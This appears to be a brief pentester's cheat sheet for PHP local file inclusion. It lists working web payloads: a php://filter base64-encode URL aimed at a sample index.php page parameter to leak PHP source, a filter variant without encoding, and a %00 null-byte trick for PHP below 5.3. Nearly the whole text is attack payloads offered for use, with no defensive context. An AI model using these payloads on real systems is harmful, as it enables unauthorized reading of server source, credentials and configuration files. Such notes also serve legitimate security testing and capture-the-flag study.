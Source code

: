 # php LFI

## include PHP filter URL

### base 64 encode
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
php://filter/convert.base64-encode/resource=
```

### no encoding
also works with no convert encoding part - may still evaluate php code if used in `include`
```
php://filter/resource=
```

## filename extension nullbyte tecnhique - below php 5.3
%00
